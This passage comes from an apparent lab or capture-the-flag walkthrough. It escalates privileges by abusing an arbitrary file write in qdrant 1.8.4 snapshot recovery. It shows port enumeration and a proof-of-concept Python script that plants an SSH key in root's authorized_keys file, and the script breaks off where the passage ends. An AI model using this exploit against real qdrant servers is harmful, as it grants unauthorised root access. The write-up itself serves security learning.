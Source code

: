 ```bash
tcp         LISTEN       0            128                       0.0.0.0:22                       0.0.0.0:*                        
tcp         LISTEN       0            511                       0.0.0.0:80                       0.0.0.0:*                        
tcp         LISTEN       0            128                          [::]:22                          [::]:*
```
Which is interesting enough, so I ran a wget command so I can see if there is a webapp running:
```bash
www-data@flatscape:/tmp$ wget http://127.0.0.1:6333
www-data@flatscape:/tmp$ cat index.html 
{"title":"qdrant - vector search engine","version":"1.8.4","commit":"984f55d6b9240b8c488a43c599958ad793ff0387"}
```
The details point to a qdrant version 1.8.4, looking for this software and version I found this article [Arbitrary file read and write during snapshot recovery in qdrant/qdrant](https://huntr.com/bounties/abd9c906-75ee-4d84-b76d-ce1386401e08), there is a way to write a file in the context of the user running this software, in this case all you need to do is to write the authorized_keys file using your public key on the `/root/.ssh` path, the article provides a script that is very useful for it:
```bash
cat exploitqdrantwrite.py 
# poc_write.py
import tarfile
from io import BytesIO
from random import randbytes
from pathlib import Path
from argparse import ArgumentParser
from requests import Session

if __name__ == "__main__":
    parser = ArgumentParser()
    parser.add_argument("--url", default="http://localhost:6333")
    parser.add_argument("--remote_path", default="/root/.ssh/authorized_keys")
    parser.add_argument("--local_path", default="id_rsa.pub")
    args = parser.parse_args()

    cname = "c_" + randbytes(4).hex()

    remote_path = Path(args.remote_path)

    with Session() as s:
        # create a new collection:
        rsp = s.put(f"{args.url}/collections/{cname}", json={})

        # create and retrieve a snapshot:
        rsp = s.post(f"{args.url}/collections/{cname}/snapshots", json={})
        sname = rsp.json()["result"]["name"]

        rsp = s.get(f"{args.url}/collections/{cname}/snapshots/{sname}")
        snapshot = BytesIO(rsp.content)

        # create a fake tar with payload, you can also set custom file attributes
        # if you need the file to be executable, etc:
        fake_tar = BytesIO()
        with tarfile.open(fileobj=fake_tar, mode="w") as tar:
            tar.add(args.local_path, arcname=str(remote_path.name))

        # modify the snapshot to add a new segment .tar with a payload and a pre-existing
        # directory symlink with the same name (sans .tar);
        # during recovery process it will try to extract the contents of redirect.tar to redirect/
        with tarfile.open(fileobj=snapshot, mode="a") as tar:
            info = tarfile.TarInfo(f"0/segments/redirect.tar")
            info.size = len(fake_tar.getvalue())
            tar.addfile(info, fileobj=BytesIO(fake_tar.getvalue()))
```